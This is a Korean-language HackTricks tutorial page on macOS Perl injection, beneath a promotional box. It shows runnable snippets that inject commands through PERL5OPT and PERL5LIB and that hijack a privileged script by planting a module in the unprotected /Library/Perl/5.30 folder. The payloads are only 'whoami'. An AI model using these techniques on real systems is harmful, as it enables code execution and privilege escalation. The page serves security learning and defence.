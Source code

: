 # macOS Perl Applications Injection

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 제로에서 영웅이 되는 AWS 해킹 배우기</strong></summary>

다른 방법으로 HackTricks를 지원하는 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)을 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 요령을 공유**하세요.

</details>

## `PERL5OPT` 및 `PERL5LIB` 환경 변수를 통한 방법

환경 변수 `PERL5OPT`을 사용하면 perl이 임의의 명령을 실행할 수 있습니다.\
예를 들어, 다음 스크립트를 만듭니다:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

이제 **환경 변수를 내보내고** **perl** 스크립트를 실행하세요:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
다른 옵션은 Perl 모듈을 생성하는 것입니다 (예: `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

그런 다음 환경 변수를 사용하십시오:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```
## 의존성을 통해

Perl을 실행하는 데 필요한 종속성 폴더 순서를 나열할 수 있습니다:
```bash
perl -e 'print join("\n", @INC)'
```
다음은 비슷한 결과를 반환합니다:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
일부 반환된 폴더는 실제로 존재하지 않지만, **`/Library/Perl/5.30`**는 **존재**하며, **SIP로 보호되지 않았으며** SIP로 보호되는 폴더들보다 **앞에** 있습니다. 따라서 누군가는 그 폴더를 남용하여 스크립트 종속성을 추가하여 고권한 Perl 스크립트가 해당 스크립트를 로드하도록 할 수 있습니다.

{% hint style="warning" %}
그러나 **해당 폴더에 쓰기 위해서는 루트 권한이 필요**하며 요즘에는 이 **TCC 프롬프트**가 나타납니다:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

예를 들어, 스크립트가 **`use File::Basename;`**을 가져오고 있다면 `/Library/Perl/5.30/File/Basename.pm`을 만들어 임의의 코드를 실행시킬 수 있습니다.

## 참고 자료

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)
